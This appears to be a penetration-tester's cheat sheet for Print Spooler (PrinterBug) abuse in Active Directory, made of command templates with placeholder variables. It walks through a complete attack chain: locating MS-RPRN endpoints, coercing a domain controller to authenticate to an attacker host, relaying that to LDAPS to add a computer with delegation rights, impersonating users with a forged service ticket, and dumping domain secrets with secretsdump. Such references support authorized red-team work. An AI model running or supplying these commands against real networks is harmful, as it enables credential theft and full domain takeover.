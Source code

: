 # Spooler service abuse

% printerbug, spooler service abuse, active directory, ad

## Finding Spooler services listening
```
rpcdump.py <domain>/<user>:'<password>'@<dc> | grep MS-RPRN
```

## Finding Spooler services anonymous
```
rpcdump.py <dc> | grep -A 6 MS-RPRN
```

## dementor (https://github.com/NotMedic/NetNTLMtoSilverTicket)
```
dementor.py -d <domain> -u <user> -p <pass> <attacker_ip> <dc2>
```

## printerbug (https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
```
printerbug.py '<domain>/<user>:<password>'@<ip> <attacker_ip>
```

## ntlmrelayx add computer
```
ntlmrelayx -t ldaps://<dc1> -smb2support --remove-mic --add-computer <computer_name> <computer_password> --delegate-access
```

## use silver ticket
```
getST.py -spn host/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```

## secret dump with kerberos
```
secretsdump -k <dc>
```

## list domain admins (fr)
```
net group "Admins du domaine"
```

=user:anonymous
=pass:anonymous
=computer_name:arsenal
=dc:DC01.domain.local
=dc1:DC01.domain.local
=dc2:DC02.domain.local
=computer_password:123soleil

